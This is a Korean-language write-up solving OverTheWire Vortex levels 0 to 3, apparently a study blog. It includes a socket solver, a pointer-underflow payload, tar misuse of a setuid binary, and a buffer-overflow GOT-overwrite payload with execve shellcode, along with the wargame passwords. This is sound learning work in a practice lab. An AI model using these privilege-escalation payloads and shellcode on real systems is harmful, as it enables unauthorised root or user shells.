

# vortex Level 0 )
#### 문제) 
Your goal is to connect to port 5842 on vortex.labs.overthewire.org and read in 4 unsigned integers in host byte order.<br>
Add these integers together and send back the results to get a username and password for vortex1.<br>
This information can be used to log in using SSH.<br>
#### 문제 풀이) 
Python코드를 이용하여 문제를 해결했다.<br>
소켓을 연결하여 얻어오는 정수 없는 Integer 4개를 더하여 메세지를 보내면, 답을 알려주는 문제라고 설명하고 있다.<br>
네트워크 바이트 오더를 알아야 한다.<br>
Intel x86은 리틀 엔디안 방식을 사용하며, 리틀 엔디언 방식은 메모리의 첫 주소에 하위데이터(데이터의 맨 오른쪽)부터 저장한다.<br>
쉽게 생각하면 받아오는 값을 Big endian으로 변환하고, 계산 후에 다시 Little Endian 방식으로 보내주면 된다.<br><br>

일단 소켓 프로그래밍을 한 후에 어떤 데이터를 받아오는 지 확인했다.(부호 없는 "정수"이기에 4바이트만 받아왔다.)<br>
<br>
반복 실행하니, 값이 바뀌는 것을 확인 할 수 있었다.<br>
즉 받은 즉시 값을 계산하여 보내주지 않으면 답을 얻을 수 없어보인다.<br>
Python Little Endian 이라고 구글에 검색하니, Struct라는 모듈을 추천해주었다.<br>
Struct 모듈의 사용법을 적용한 후 디버깅을 진행했다.<br>
<br>
그림과 같이 튜플 형식으로 받아온다. [0]의 값만 필요하니 추출한 후에 계산.<br>
디버깅으로 값을 잘 계산하는 지 확인했다.<br>
<br>
잘 더해졌으니, Send로 보내면 된다. 값을 계산할 때 빅 엔디언 형식으로 바꿨으니 리틀 엔디언 형식으로 바꾼 후 보내줘야한다.<br>
그랬더니 답이 돌아왔다.<br>
<br>

```python
import socket
import struct

#서버의 주소
HOST = 'vortex.labs.overthewire.org'
# 포트 번호
PORT = 5842

result = 0 # 부호 없는 정수 4개를 더할 변수
big = None # Big Endian을 저장할 변수


#소켓 객체 생성
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

#서버에 접속
client_socket.connect((HOST,PORT))

#메세지 4번 수신, 빅엔디언으로 변환 후 데이터 계산
for i in range(0,4):
    data = client_socket.recv(4)
    big = struct.unpack('<I', data)[0]
    result += big
    
    
#리틀 엔디언으로 데이터 변환 후, 메세지 전송
client_socket.send(struct.pack('<I',result))

#답 받아오기
print(client_socket.recv(1024))

# 소켓 닫기
client_socket.close()
```
Struct 객체가 헷갈릴 수 있기에 잠시 설명한다.<br>
Struct 객체에서 받을 때와 보낼 때 모두 Little Endian으로 사용하는 모습이 보인다.<br>
``` python
big = struct.unpack('<I', data)[0] #받을 때 리틀 엔디언에서 빅 엔디언으로 변환

client_socket.send(struct.pack('<I',result)) # 보낼 때 리틀 엔디언 변환
```
오해할 수 있는 부분이, 리틀 엔디언을 빅 엔디언으로 바꿀 때 ">I"로 변환하는 것이 아니다.<br>
그것에 대한 예제를 만들고 실험했다.<br>

``` python
import struct

lUP = struct.unpack("<I",b'\x03\x02\x01\x00')[0]
bUP = struct.unpack(">I",b'\x00\x01\x02\x03')[0]
 
print("Little Endian : "+str(lUP)+"\nBig Endian : "+str(bUP))

lP = struct.pack("<I", lUP)
bP = struct.pack(">I", bUP)

print("Little Endian : "+str(lP)+"\nBig Endian : "+str(bP))

lUP = struct.unpack("<I",lP)[0]
bUP = struct.unpack(">I",bP)[0]

print("Little Endian : "+str(lUP)+"\nBig Endian : "+str(bUP))

```
실행 결과는 이렇다.<br>

<br>

#### 답 == _Username: vortex1 Password: Gq#qu3bF3_ 


# vortex Level 1 )
#### 문제) 
We are looking for a specific value in ptr. You may need to consider how bash handles EOF..

Included file: vortex1.c
```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>

#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
        int i;

        printf("[ ");
        for(i=0; i < len; i++) printf("%x ", buf[i]); 
        printf(" ]\n");
}

int main()
{
        unsigned char buf[512];
        unsigned char *ptr = buf + (sizeof(buf)/2);
        unsigned int x;

        while((x = getchar()) != EOF) {
                switch(x) {
                        case '\n': print(buf, sizeof(buf)); continue; break;
                        case '\\': ptr--; break; 
                        default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
                }
        }
        printf("All done\n");
}
```
#### 문제 풀이) 
코드가 주어지면서 ptr의 특정한 값을 찾고 있다고 하네요.<br>
코드에서 보면 알겠듯이 ptr의 시작 부분이 \xca 이면 조건이 만족하여 쉘을 시작하는 것 같습니다.<br>
일단 File을 gdb로 디버깅해보도록 합시다.<br>
<br>
명령어를 입력하고 확인했으나 홈디렉토리에는 아무것도 없군요.<br>
setuid가 걸린 파일을 찾아야합니다. find 명령어로 찾아줬습니다.<br>
<br>
잘 찾았습니다. 해당 디렉토리에 가보면 잘 있음을 확인할 수 있습니다<br>
<br>
gdb를 이용하여 어셈블리어 코드를 살펴봤습니다.<br>
<br>
어셈블리어 코드들 중에 ptr의 시작주소와, 버퍼의 시작주소,그리고 현재 ptr이 가리키고 있는 부분을 찾아야합니다.<br> 
<br>
일단 코드를 보면 buf는 512이라는 공간을 할당했고, dummy가 추가된 공간을 스택에서 확보했습니다.<br>
<br>
그리고 밑에서 eax레지스터에 [esp + 0x1c]가 lea명령어로 주소가 들어감을 알 수 있습니다.<br>
그밑에 add로 eax 변수에 0x100을 더해주는군요. 0x100은 10진수로 256바이트입니다. 그리고 그 값을 [esp + 0x14]부분에 넣어주네요.<br>
필요한 주소는 다 구했습니다.<br>
1. buf의 시작 주소 == esp + 0x1c
2. ptr의 시작 주소 == esp + 0x14
3. ptr이 가리키는 주소 == esp + 0x1c + 0x100<br>

gdb의 명령어중 x/x를 이용해서 확인해 보겠습니다.<br>
<br>
주소를 확인할 때 어느정도 진행이 된 후에 브레이크 포인트를 걸어 주소를 확인해야 정확한 값이 들어가 있어, main+92 부분에 브레이크 포인트를 건 후에 진행했습니다.<br>
<br>
<br>
ptr의 시작 주소는 0xffffd534네요. 0xffffd63c값이 들어가 있는 부분이 보입니다. 여기서 우린 앞의 ff부분을 ca로 바꿔야겠죠.<br>
여기서 리틀 엔디언으로 들어가기 때문에, ff의 위치인 +3 부분에 넣어줘야하겠습니다. 추측이 맞는지 확인해보죠.<br>
<br>
<br>
확실하네요. 자 이곳에 \xca을 넣어주기로 하고, buf의 시작주소를 확인해봅시다.<br>
<br>
buf주소도 찾았으니 ptr이 현재 가리키고 있는 값은 0xffffd53c+100 이고, 이곳에서 ptr의 시작 위치까지 구하려면 (0xffffd53c+100)-0xffffd534 면 거리를 구할 수 있습니다.<br>
264칸 떨어져 있네요. 여기서 주의 할 점은, 우리가 넣을 값의 위치는 esp+14+3에 위치한 곳이었습니다. 264-3을 해주는 공간에 넣어줘야겠네요.<br>
자, 다 구했습니다. 페이로드를 작성하면 됩니다.<br>
_(python -c 'print "\\" * 261 + "\xca"'; cat) | ./vortex1_ <br>
이렇게하면 쉘을 획득하실 수 있습니다.<br>
여기서 왜 cat을 넣었느냐에 대한 답변을 문서와 함께 남깁니다. <br>
쉘코드를 사용해서 페이로드를 작성할 때, 파이선 스크립트가 출력하는 과정에서 EOF를 자동으로 추가하기 때문입니다.<br>
[왜 cat이라는 명령어를 넣었는가? - 참고문서](https://satanel001.tistory.com/82)<br>
<br>
페이로드를 넣어주면 쉘코드가 실행되고 password를 얻어올 수 있습니다.<br>


간략한 후기 : Vortex는 풀이에 시간이 걸린다.<br>
Bandit은 linux 다루는데에 초점을 두기에 제외하고, FTZ보다 좀 많이 어려운 것 같다.<br>
그래도 정복 도전!<br>

#### 답 == _23anbT\rE_ 


# vortex Level 2 )
#### 문제) 
```C
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>


int main(int argc, char **argv)
{
        char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
        execv(args[0], args);
}
```
#### 문제 풀이) 
소스 코드를 보면 tar 명령어를 실행하는 것을 볼 수 있다.<br>
대충 감을 잡아보면 0번재 인자는 tar의 실행 위치, 1번째는 옵션, 2번째는 어디다가 어떻게 만들지 형식을 지정하는 것이다.<br>
<br>
습관적으로 홈 디렉토리를 찾아본 후에, setuid 파일을 찾았다.<br>
<br>
하나의 setuid가 있어 자세히 살펴 보았다. vortex3의 권한을 가지고 있고, 위의 소스코드와 같은 기능을 하니, 이 파일로 실행하면 압축이 되겠다.<br>
<br>
내추측이 맞나 확인해보니, 맞았다. 없는 파일을 대입하니 그 파일이 없다고 안된다고 한다.<br>
Vortex3의 권한을 가지고 있으니, 이 실행파일과 함께 Vortex3의 비밀번호가 담긴 파일을 압축하면 되겠다.<br>
<br>
"/"을 지우라고 하시니, /etc/vortex_pass에 가서 ./vortex3을 읽어오도록 하자.
<br>
명령어가 잘 실행되었다. /tmp/ownership.$$.tar이 잘만들어 졌을 것이다. 확인해봤다.<br>
<br>
cat으로 읽어보려고 했으나 실패, 그 이유는 $$를 55로 읽고있는 모습이다. $문자를 \을 추가하여 무시하게 만들었다.<br>
<br>
비밀번호가 나오는 것을 확인할 수 있다.<br>
이중에서 무엇이 비밀번호일까? 의문이 들 수 있기에 한 가지 실험을 했다.<br>
비슷한 예제를 만들어서 실험해보면 된다.<br>
t1.txt에는 "go!"을 t2.txt에는 "dong"를 넣어두고 tar로 압축했다.<br>
그리고 cat을 확인해본 결과.<br>
<br>
Dong이 vortex2vortex2dong 이라고 나오는 것을 알 수 있다.<br>
그럼 비밀번호는 .


#### 답 == _64ncXTvx#_ 


# vortex Level 3 )
#### 문제)
```C
/*
 * 0xbadc0ded.org Challenge #02 (2003-07-08)
 *
 * Joel Eriksson <je@0xbadc0ded.org>
 */

#include <string.h>
#include <stdlib.h>
#include <stdio.h>

unsigned long val = 31337; //전역변수 헥사 값 == 0x7a69
unsigned long *lp = &val; //전역변수, Val의 주소를 가지고 있음.

int main(int argc, char **argv)
{
        unsigned long **lpp = &lp, *tmp; //**ipp가 *ip의 주소를 가리킴, unsigned long *tmp 생성.
        char buf[128]; // 128byte 문자열 생성

        if (argc != 2) //인자가 2개가 아니면 실행 불가
                exit(1);//에러 발생

        strcpy(buf, argv[1]); //argv[1]값을 buf에 복사 -> BOF

        if (((unsigned long) lpp & 0xffff0000) != 0x08040000) //ipp를 비트 and를 통해 초기화. 틀리면 오류발생.
                exit(2);

        tmp = *lpp; // *tmp가 *ip를 가리킴
        **lpp = (unsigned long) &buf; //**ipp 가 buf의 주소를 가리킴 == 전역 변수 val에 buf의 주소가 들어감.
        // *lpp = tmp; // Fix suggested by Michael Weissbacher @mweissbacher 2013-06-30

        exit(0); //실행 종료
}
```


#### 문제 풀이) 
이번 문제의 핵심은 GOT Overwrite였다.<br>
.ctors / .dtors를  사용할 수 없을 수도 있다길래 사용하지 말란 건줄 알았다.<br>
너무 어려워 다른 사람의 문제를 참고했을 때, .dtors를 사용하더라.<br>
근데 나는 다른 방법으로 해결하기로 했다. 그 방법은 GOT였다.<br>
Lazy Binding 개념을 알아야 해결할 수 있기에, 그와 관련된 문서를 찾아 공부한 후 진행했다.(Lazy_binding.md에 간단히 정리)<br>
함수의 주소를 동적으로 얻어오려고 GOT(Global Offset Table)를 이용한다.<br>
함수가 시작할때 plt에서 got의 주소를 알아오는데, 이때 Got의 주소를 우리가 원하는 것으로 바꾸면 그것이 불러와진다.<br>

코드를 분석할 때 더블 포인터가 나와서 많이 헷갈리고 어려웠다.<br>
일단 BOF를 일으키기 위해서 buf와 **ipp의 주소의 거리를 알아야했다.<br>
<br>
소스 코드를 찾고, GDB로 디버깅을 했다.<br>
<br>
<+ 12>을 보면 [esp + 0x9c]로 0x8049748 주소에 있는 값을 넣고 있다.<br>
추측하면, *ip의 주소이고 Val에 있는 값을 넣고 있는 것 같다.<br>
더블 포인터인 **ipp의 주소란 소리.<br>
확인해봤다.<br>
<br>
확실히 전역변수인 ip와 val라고 알려주고 있다.<br>
7a69는 10진수로 31337이다.<br>
[esp + 0x9c]는 확실하게 **ipp가 위치한 곳을 찾았다.<br>
다음으로 찾아야 할 것은 buf의 시작 주소다.<br>
이것은 쉽게 찾을 수 있는데, strcpy함수가 시작하기전 lea 명령어로 주소를 eax에 복사하는 것을 볼 수 있다. <br>
[esp+0x18]가 buf의 시작주소다.<br>
0x9c - 0x18 == 132다.<br>
<br>
확실히 132의 거리만큼 떨어져 있다.<br>
슬슬 페이로드를 작성할 수 있을 것 같다.<br>
그전에 짚고 넘어가야 할 부분이 있다.<br>
<br>
위 이미지를 보면 세그먼트 오류를 발생하지 않고 그냥 종료시키는데 그 이유는 코드 두줄 때문이다.<br>
```C
if (((unsigned long) lpp & 0xffff0000) != 0x08040000)
                exit(2);
```
현재 우리는 Ipp의 주소를 41414141로 바꿨기 때문에 & 비트 연산이 이뤄지고 나서 41410000이 되기에 조건이 부합하지 않는다.<br>
0x0804가 될 수 있어야겠다.<br>
다시 코드를 분석해보면 마지막 exit함수를 실행하며 종료한다.<br>
exit함수가 호출될 때, got값을 가지고 있는 plt+2의 주소를 ipp가 가리키고 있다면?<br>
**ipp는 &buf의 주소를 가지게 되기 때문에 쉘코드를 실행할 것이다.<br>
<br>
plt가 시작하면 바로 jmp를 하고 있기 때문에, plt+2 부분에 got의 주소가 들어있다.<br>
이 주소를 ipp가 가리키게 하려면 그 안에 덮어씌워야 할 것.<br>
페이로드는 [쉘코드] + [Adummy] + [got주소] == 136바이트가 되야겠다.<br>
페이로드<br>
```
./vortex3 $(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"+"A"*85+"\x12\x83\x04\x08"')
```
작성한 페이로드는 이렇다.<br>
<br>
정상적으로 쉘을 얻어오는 모습을 확인할 수 있다.<br>
이 GOT overwrite는 좀더 공부해야할 필요를 느낀다.<br>
앞으로 더 나오겠지만, Vortex의 무지막지한 렉(5초이상)이 걸리는 현상이 잦아 실험이 어렵다.<br>
vortex의 진도가 안나가는 이유중 하나다.<br>
어려운데, 렉도 걸려...<br>

#### 답 == _2YmgK1=jw_ 